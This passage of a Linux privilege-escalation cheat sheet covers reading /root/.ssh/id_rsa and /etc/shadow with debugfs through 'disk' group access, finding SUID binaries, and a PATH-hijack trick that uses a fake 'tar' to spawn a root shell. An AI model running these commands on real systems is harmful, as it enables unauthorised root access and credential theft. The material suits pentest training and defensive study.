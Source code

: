 ```bash
# If you see "disk" in groups:
id | grep disk

# Read entire disk
debugfs /dev/sda1
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

---

## Priority 3: SUID Binaries

### Find SUID Files

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Save to file for analysis
find / -perm -4000 -type f 2>/dev/null > suid_binaries.txt
```

### Identify Exploitable SUID

**Focus on non-standard binaries:**
- NOT in /bin or /usr/bin (usually safe)
- Custom application binaries
- Anything in /opt, /usr/local/bin, /home

**Analyze suspicious SUID binaries:**
```bash
# Check what it does
strings /path/to/suid/binary

# Check library calls
ltrace /path/to/suid/binary 2>&1

# Check system calls
strace /path/to/suid/binary 2>&1

# Look for:
# - system() calls
# - exec() calls
# - Relative paths (exploitable via PATH)
```

### Common SUID Exploits

**If binary calls system() without full path:**
```bash
# Example: /opt/backup calls "tar" without /bin/tar

# Create malicious binary
echo '/bin/bash' > /tmp/tar
chmod +x /tmp/tar

# Modify PATH
export PATH=/tmp:$PATH

# Run SUID binary
/opt/backup

# Now root!
```